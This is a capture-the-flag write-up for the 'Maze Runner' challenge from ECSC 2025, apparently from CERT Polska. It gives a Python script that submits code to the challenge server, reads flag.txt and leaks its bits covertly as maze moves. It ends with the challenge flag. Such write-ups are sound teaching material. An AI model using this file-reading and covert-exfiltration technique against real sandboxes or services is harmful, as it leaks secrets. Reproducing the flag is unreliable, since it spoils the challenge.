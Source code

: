 # Maze Runner

> Challenge inspired by an unhinged approach author took while trying to solve the "Fish Maze" on Google CTF 2025.
>
> [maze-runner.7z](https://hack.cert.pl/files/maze-runner-c40b5f2680f3952e454944b8b956c86d0de74706.7z)
>
> [https://maze-runner.ecsc25.hack.cert.pl/](https://maze-runner.ecsc25.hack.cert.pl/)

## Solution
Well, there's nothing stopping us from reading the contents of `flag.txt` and leaking it as a sequence of moves in the maze, is there?

```py
from Crypto.Util.number import long_to_bytes
import requests

flag = ''
idx = 0
done = False

while not done: # needs to be put in a loop as there is an upper bound on the number of moves
    code = '''
if not hasattr(make_move, 'bits'):
    make_move.bits = ''.join(f'{ord(x):08b}' for x in open('flag.txt', 'rt').read())[%s:]
if len(make_move.bits) == 0:
    return 2
[b, *make_move.bits] = make_move.bits
return int(b)
    ''' % idx
    res = requests.post('https://maze-runner.ecsc25.hack.cert.pl/submit', json={'code': code})
    moves = res.json()['moves']
    try:
        moves = moves[:moves.index(2)]
        done = True
    except ValueError: # raised if 2 is not in moves
        idx += len(moves)
    flag += ''.join(map(str, moves))

print(long_to_bytes(int(flag, 2)).decode())
```

## Flag
`ecsc25{the_r3al_m4ze_was_th3_fr1ends_we_m4de_al0ng_the_way!}`
